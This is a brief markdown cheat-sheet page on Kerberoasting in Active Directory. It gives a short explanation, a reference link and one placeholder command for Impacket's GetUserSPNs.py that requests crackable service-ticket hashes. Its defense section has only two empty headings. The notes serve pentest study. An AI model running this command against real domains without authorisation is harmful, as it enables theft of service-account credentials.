

# Kerberoasting

## Attack

<figure><figcaption></figcaption></figure>

https://medium.com/@Shorty420/kerberoasting-9108477279cc

If we have domain creds, we can request a TGT - we get TGT, request TGS - KDC will send back TGS (this is what we need, includes hash of services account)

### GetUserSPNs.py

```bash
$ python GetUserSPNs.py [domain]/[username]:[password] -dc-ip [dc-ip] -request
```

## Defense

#### Strong Passwords

#### Least Privilege
